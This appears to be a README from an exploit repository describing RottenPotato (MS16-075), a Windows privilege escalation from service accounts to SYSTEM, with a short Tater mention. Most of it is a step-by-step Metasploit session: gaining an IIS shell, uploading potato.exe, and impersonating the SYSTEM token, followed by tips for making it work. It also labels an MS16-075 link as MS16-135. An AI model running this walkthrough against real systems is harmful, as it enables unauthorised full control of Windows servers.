 # MS16-075 

- The potato.exe was from [@FoxGlove](https://github.com/foxglovesec/RottenPotato)
- For a technical overview of this [exploit]( https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Vulnerability reference:
 * [MS16-135](https://technet.microsoft.com/library/security/MS16-075)
 

## RottenPotato

Local Privilege Escalation from Windows Service Accounts to SYSTEM

## Videos for example
- [SQL Server](https://www.youtube.com/watch?v=3CPdKMeB0UY) 
- [IIS](https://www.youtube.com/watch?v=wK0r-TZR7w8)

## Usage of msf
```
msf exploit(web_delivery) > set ExitOnsession false
msf exploit(web_delivery) > run
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > getprivs
===========================================================
Enabled Process Privileges
===========================================================
 SeAssignPrimaryTokenPrivilege

meterpreter > upload  /root/potato.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Get a shell has Privileges:SeAssignPrimaryTokenPrivilege

![iis](img/IIS_shell.png)

### Get system Privilege

![potato](img/potato.png)
***
- It is important to impersonate the token (or run list_tokens -u) quickly after runnning the binary.
- It is also important to follow the order of the steps. 
- Make sure you "use incognito" before running the binary.

***

## Tater

a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit

- The Tater was from [@Kevin-Robertson](https://github.com/Kevin-Robertson/Tater)
![win10](img/win10.png)  
